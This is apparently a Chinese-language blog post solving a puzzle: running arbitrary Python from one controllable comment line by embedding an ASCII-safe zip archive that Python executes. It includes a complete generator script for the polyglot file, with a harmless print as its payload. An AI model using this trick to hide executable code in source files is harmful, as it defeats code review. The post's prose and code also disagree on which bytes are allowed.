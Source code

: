 ```yaml
---
date: 2025-08-04T10:00:00+08:00
draft: false
title: "Executing arbitrary Python code from a comment"
---
```

通过注释执行任意Python代码

### 问题描述
Q: 只能控制一行的.py代码中注释的内容(\n\r均会被替换为空字符), 如何执行任意代码?  
A: 在注释#中, 构造一个.zip 文件, python 会将该内容当成一个zip包执行, 触发任意代码执行  

### 解决方案
- 从 Python 3.5 起, 可以直接执行一个 .zip 文件
    ```python3
    python myapp.zip
    ```
    前提是ZIP 包中包含一个顶层的`__main__.py`文件, Python 会把它当作 zipapp, 自动解压并运行`__main__.py`

    > Python 会从末尾找到 ZIP 的目录结构, 而不是依赖文件头, 所以前面的“垃圾”字节会被忽略

Python 源码中的任何行, 只要以 # 开头, 解释器都会忽略后面内容, 因此可以:
- 把 ZIP 文件的数据藏在 Python 源码中的注释中（开头加 #）
- 把 ZIP 数据直接拼接在 Python 文件的后面, 只保证文件头部分是合法 Python
- ZIP 不关心前缀, Python 只要最前面是有效源码, 也不会管后面

### 难点
ZIP 文件头包含**二进制字段**，比如
- 偏移量（文件数据相对于 ZIP 开头的位置）
- 长度（文件名长度、注释长度等）
- 这些值写死在 header 里, 是十六进制整数
- 如果这些字节中出现了像 \x00、\xFF 等非 ASCII 内容, Python 就不能把它当注释

解决方法: 暴力穷举合法组合

想办法 **调整偏移值和结构位置**，使得最终写出来的 ZIP 文件
- 所有的字段值都转化为 可打印字符（ASCII 范围内）
- 所有 binary 字段看起来都像合法的注释字符串
于是用 `itertools.product(range(256), repeat=2)` 暴力尝试偏移组合，只要碰巧生成的 ZIP 包所有关键字节都在可打印范围内（ASCII 32~126），就认为成功。



下面是`generate_polygloy_zip.py`代码, 会生成一个符合要求的`polygloy.py`代码, 最后运行该代码, 可以执行Body里面的内容`BODY = b"print('FROM MAIN.py FILE!!!')#"`

```python3
# struct: 按字节结构打包数据，方便构造 ZIP 文件二进制头
# itertools: 用来暴力枚举 CRC 校验和后缀（确保安全ASCII）
# zlib: 计算 CRC32 校验和
import struct, itertools, zlib

# 文件开头代码
# encode(): Unicode 字符串 -> bytes 字节串
JUNK_HEAD = """print("Hello World!")
# This is a comment. Here's another:
# """.encode()

# 文件结尾代码
JUNK_TAIL = """
print("Thanks for playing!")"""


# zip 文件核心代码
# b: 字节串
FILENAME = b"__main__.py"
BODY = b"print('FROM MAIN.py FILE!!!')#"


# 校验 CRC 是否为 ASCII-safe
def ascii_safe(x: int) -> bool:
    return all(((x >> (8*i)) & 0x80) == 0 for i in range(4))


# 检查 32 位整数的四个字节，每个字节最高位（0x80）是否为 0，即是否为 ASCII 范围内的字节
def find_suffix(core: bytes, length: int = 4) -> tuple[bytes, int]:
    """
    - ZIP 文件 CRC32 计算结果必须 ASCII-safe（低于 0x80）
    - 这里用暴力方法，给 payload 后面加4字节后缀，找到合适的后缀让 CRC32 满足 ASCII-safe 条件
    """
    printable = range(0x20, 0x7f)
    for tail in itertools.product(printable, repeat=length):
        payload = core + bytes(tail)
        crc = zlib.crc32(payload) & 0xFFFFFFFF
        if ascii_safe(crc):
            return bytes(tail), crc

    raise RuntimeError("No ASCII-safe CRC found.")

# 计算最终 payload
SUFFIX, CRC = find_suffix(BODY)
PAYLOAD = BODY + SUFFIX
SIZE = len(PAYLOAD)

def le32(x): return struct.pack("<I", x) # 4字节小端无符号整数
def le16(x): return struct.pack("<H", x) # 2字节小端无符号整数

# ZIP 结构中各签名常量
SIG_LFH  = 0x04034B50 # 本地文件头 Local File Header
SIG_CDH  = 0x02014B50 # 中央目录头 Central Directory Header
SIG_EOCD = 0x06054B50 # 结束目录头 End of Central Directory

# zip 文件偏移量设置
delta = len(JUNK_HEAD)

# 构建 Local File Header
"""
Local File Header 是 ZIP 格式中的一部分，告诉解压程序该文件的元信息
- version needed to extract，flags，compression method 等字段置 0 表示无压缩，简单存储
- CRC32、压缩大小、解压大小都是我们计算的
- 文件名长度和文件名
"""
lfh = (
    le32(SIG_LFH) +
    le16(0) + le16(0) + le16(0) + le16(0) + le16(0) +
    le32(CRC) + le32(SIZE) + le32(SIZE) +
    le16(len(FILENAME)) + le16(0) +
    FILENAME
)

# 构建 Central Directory Header
"""
- Central Directory 是 ZIP 文件目录结构，记录每个文件信息和偏移，
- 其中重要的是 relative offset of LFH，也就是 Local File Header 在整个 ZIP 文件里的偏移，必须加上 delta
"""
cdh = (
    le32(SIG_CDH) +
    le16(0) + le16(0) + le16(0) + le16(0) + le16(0) + le16(0) +
    le32(CRC) + le32(SIZE) + le32(SIZE) +
    le16(len(FILENAME)) + le16(0) + le16(0) +
    le16(0) + le16(0) + le32(0) + le32(delta) +
    FILENAME
)

# 确保偏移量 ASCII-safe
"""
- ZIP 目录偏移需要是 ASCII 字节，否则写入 .py 文件时会出错
- 这里通过填充若干 \x00 字节，保证偏移合法
"""
cd_offset = delta + len(lfh) + len(PAYLOAD)
pad = 0
while not ascii_safe(cd_offset + pad):
    pad += 1
padding = b'\x00' * pad
cd_offset += pad

# 构建 End of Central Directory Header
"""
EOCD 记录 ZIP 中央目录大小、偏移及注释长度等信息
"""
eocd = (
    le32(SIG_EOCD) +
    le16(0) + le16(0) +
    le16(1) + le16(1) +
    le32(len(cdh)) +
    le32(cd_offset) +
    le16(len(JUNK_TAIL))
)

# 拼接完整 ZIP 内容
zip_bytes = lfh + PAYLOAD + padding + cdh + eocd
zip_bytes = bytearray(zip_bytes)
assert all(b < 0x80 for b in zip_bytes), "非 ASCII 字节存在"

# 写入 polyglot.py 文件
with open("polyglot.py", "wb") as f:
    f.write(JUNK_HEAD + zip_bytes + JUNK_TAIL.encode())

# 运行提示
print("✅ polyglot.py 生成完毕。运行它即可执行嵌入的 __main__.py 内容：")
print("  $ python3 polyglot.py")
```
